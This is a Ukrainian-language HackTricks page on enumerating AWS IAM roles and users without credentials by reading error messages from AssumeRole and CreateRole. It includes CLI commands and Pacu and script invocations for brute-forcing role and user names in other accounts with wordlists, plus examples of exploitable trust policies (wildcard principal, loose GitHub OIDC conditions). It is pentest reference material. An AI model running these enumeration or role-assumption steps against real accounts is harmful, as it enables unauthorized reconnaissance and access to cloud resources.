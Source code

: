 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Перелічення ролей та імен користувачів в обліковому записі

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**Ця техніка більше не працює**, оскільки незалежно від того, чи існує роль, ви завжди отримуєте цю помилку:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Ви можете **перевірити це, запустивши**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Спроба **прийняти роль без необхідних дозволів** викликає повідомлення про помилку AWS. Наприклад, якщо не авторизовано, AWS може повернути:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Це повідомлення підтверджує існування ролі, але вказує на те, що її політика прийняття ролі не дозволяє вам її прийняти. На відміну від цього, спроба **прийняти неіснуючу роль призводить до іншої помилки**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Цікаво, що цей метод **розрізнення між існуючими та неіснуючими ролями** застосовний навіть для різних AWS акаунтів. Маючи дійсний ID AWS акаунту та цільовий словник, можна перерахувати ролі, присутні в акаунті, без будь-яких внутрішніх обмежень.

Ви можете використовувати цей [скрипт для перерахування потенційних principals](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum), зловживаючи цією проблемою.

### Trust Policies: Brute-Force Cross Account roles and users

Налаштування або оновлення **trust policy ролі IAM включає визначення, які ресурси або сервіси AWS мають право приймати цю роль** та отримувати тимчасові облікові дані. Якщо вказаний ресурс у політиці **існує**, trust policy зберігається **успішно**. Однак, якщо ресурс **не існує**, генерується **помилка**, що вказує на те, що було надано недійсного principal.

{% hint style="warning" %}
Зверніть увагу, що в цьому ресурсі ви можете вказати роль або користувача з іншого акаунту:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Це приклад політики:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Це **помилка**, яку ви знайдете, якщо використовуєте **роль, яка не існує**. Якщо роль **існує**, політика буде **збережена** без будь-яких помилок. (Помилка для оновлення, але вона також працює при створенні)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Ви можете автоматизувати цей процес за допомогою [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Або використовуючи [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Роль `admin`, використана в прикладі, є **роллю у вашому акаунті, яку pacu буде використовувати** для створення політик, необхідних для виконання перерахування

### Privesc

У випадку, якщо роль була неправильно налаштована і дозволяє будь-кому її прийняти:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Атакувальник може просто припустити це.

## Third Party OIDC Federation

Уявіть, що вам вдалося прочитати **Github Actions workflow**, який отримує доступ до **ролі** всередині **AWS**.\
Ця довіра може надати доступ до ролі з наступною **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ця політика довіри може бути правильною, але **відсутність додаткових умов** повинна викликати у вас недовіру.\
Це тому, що попередню роль може прийняти **БУДЬ-ХТО з Github Actions**! Ви повинні вказати в умовах також інші речі, такі як назва організації, назва репозиторію, середовище, гілка...

Ще однією потенційною помилкою конфігурації є **додавання умови**, як у наступному прикладі:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Зверніть увагу на **wildcard** (\*) перед **colon** (:). Ви можете створити організацію, таку як **org\_name1**, і **assume the role** з Github Action.

## References

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) або [**telegram group**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
{% endhint %}
